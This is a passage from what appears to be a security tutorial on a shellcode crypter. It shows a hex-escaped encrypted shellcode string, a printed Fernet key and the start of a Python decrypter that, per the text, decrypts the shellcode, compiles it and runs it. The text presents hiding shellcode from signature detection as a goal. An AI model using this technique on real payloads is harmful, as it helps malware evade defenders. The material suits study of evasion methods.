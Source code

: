 ```sh
 " \x67\x41\x41\x41\x41\x41\x42\x65\x67\x6b\x69\x4e\x4b\x6e\x65\x53\x6c\x76\x7a\x5a\x71\x34\x70\x4c\x47\x52\x74\x38\x74\x6f\x4b\x63\x39\x4e\x50\x4e\x38\x41\x54\x70\x6f\x6c\x5a\x76\x73\x47\x63\x41\x6c\x67\x46\x54\x37\x52\x66\x46\x4e\x52\x31\x38\x4d\x53\x57\x49\x69\x53\x7a\x2d\x77\x69\x62\x36\x76\x53\x45\x69\x48\x51\x6b\x5a\x6c\x74\x62\x53\x52\x73\x35\x32\x52\x43\x59\x36\x78\x6c\x43\x45\x4c\x62\x78\x49\x53\x39\x58\x37\x6f\x6f\x42\x6a\x69\x38\x6e\x76\x65\x35\x73\x5f\x43\x46\x73\x37\x6c\x79\x52\x41\x50\x67\x65\x32\x35\x30\x65\x37\x6f\x38\x53\x4e\x6c\x44\x6c\x30\x36\x34\x4f\x33\x43\x71\x75\x6b\x31\x51\x6d\x65\x56\x71\x65\x52\x54\x47\x52\x46\x59\x4f\x79\x41\x47\x47\x4e\x77\x54\x59\x69\x71\x76\x49\x78\x76\x47\x4c\x32\x2d\x35\x34\x54\x62\x67\x38\x55\x46\x6f\x35\x30\x6a\x78\x79\x41\x6b\x35\x6f\x73\x47\x66\x46\x33\x48\x31\x31\x66\x49\x5f\x6e\x72\x6d\x5f\x36\x51\x65\x51\x43\x59\x65\x37\x6a\x4e\x34\x58\x4d\x6a\x5f\x35\x78\x62\x77\x65\x38\x33\x71\x73\x47\x7a\x78\x67\x49\x33\x36\x71\x56\x70\x47\x50\x4f\x47\x46\x54\x32\x38\x79\x75\x67\x6b\x77\x71\x37\x71\x52\x52\x35\x2d\x6f\x50\x34\x44\x4c\x42\x76\x33\x71\x59\x77\x67\x57\x35\x35\x49\x78\x36\x5a\x59\x48\x5a\x54\x4f\x4f\x6f\x38\x62\x76\x66\x79\x5a\x5a\x6e\x54\x6a\x4c\x51\x47\x38\x35\x77\x49\x67\x69\x46\x45\x77\x65\x59\x41\x4d\x67\x2d\x42\x69\x73\x6f\x4f\x58\x74\x76\x4c\x66\x6b\x32\x31\x33\x43\x67\x39\x68\x45\x64\x73\x64\x35\x48\x69\x65\x79\x55\x41\x48\x70\x76\x35\x39\x70\x41\x5a\x4d\x6b\x50\x39\x79\x65\x43\x6f\x4c\x37\x52\x58\x54\x5f\x69\x65\x72\x49\x30\x6c\x78\x73\x4d\x69\x46\x31\x75\x4e\x5f\x44\x54\x6f\x44\x35\x65\x4b\x65\x64\x6d\x58\x31\x36\x54\x57\x6a\x79\x50\x36\x68\x5f\x7a\x54\x67\x6c\x4d\x56\x55\x75\x63\x46\x76\x73\x68\x5f\x52\x69\x39\x78\x41\x4f\x61\x69\x6d\x6e\x57\x31\x42\x6f\x46\x37\x59\x48\x41\x52\x38\x70\x6a\x39\x68\x35\x50\x54\x69\x2d\x49\x2d\x38\x4f\x51\x4b\x37\x36\x44\x6e\x31\x76\x55\x4d\x76\x4c\x49\x65\x67\x79\x58\x31\x61\x4c\x45\x46\x56\x32\x6c\x46\x33\x5f\x32\x52\x34\x64\x42\x74\x61\x61\x74\x70\x46\x73\x36\x54\x79\x62\x5f\x72\x47\x49\x57\x64\x6e\x5a\x6f\x4f\x51\x66\x42\x61\x54\x31\x62\x33\x43\x47\x4b\x33\x63\x53\x71\x5a\x67\x45\x4d\x69\x42\x67\x47\x55\x77\x34\x6a\x4f\x79\x48\x4c\x47\x45\x5f\x74\x6e\x76\x4a\x54\x47\x71\x59\x69\x75\x58\x64\x49\x55\x64\x62\x66\x61\x62\x6d\x73\x6b\x67\x7a\x35\x58\x65\x6c\x37\x65\x31\x52\x6a\x58\x71\x76\x75\x4b\x4c\x73\x31\x52\x72\x43\x54\x2d\x6c\x77\x59\x77\x31\x63\x2d\x4c\x48\x4c\x4e\x62\x77\x5a\x4c\x78\x32\x61\x72\x7a\x6a\x39\x66\x71\x37\x62\x52\x34\x4e\x67\x45\x37\x6d\x70\x39\x56\x4e\x64\x38\x68\x34\x3d "
```
<p style="text-align: justify;">Verification of the key.key file, which should be created in the same directory.</p>

```sh
$ cat key.key
tCJp16dKRFfkskbfy6kew8_fkNk4EHIfv1et8BNaxRE=
```
<p style="text-align: justify;">Fantastic, it works as it should. Our shellcode in no way resembles the one we used for the encryption operation.</p>

------------------------------------------------------------------------------------------------
### Decrypter

<p style="text-align: justify;">Below is the Decrypter code, written in Python, which will perform exactly the opposite operations to restore the original shellcode in case a valid key.key file is provided. Otherwise, the program will return an error indicating an invalid key.</p>

<p style="text-align: justify;">In addition, the shellcode execution functionality has been implemented, i.e. the creation of a shellcode.c file with dynamically assigned decrypted shellcode, its compilation and launch. Again, all sections are described as comments.</p>

```python
#!/usr/bin/python3
from cryptography.fernet import Fernet
import sys
import binascii
import base64
import codecs
import os
import time
import cryptography
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC

# opening key.key file with should be avaliable in the same folder
file = open('key.key','rb')
key = file.read()
```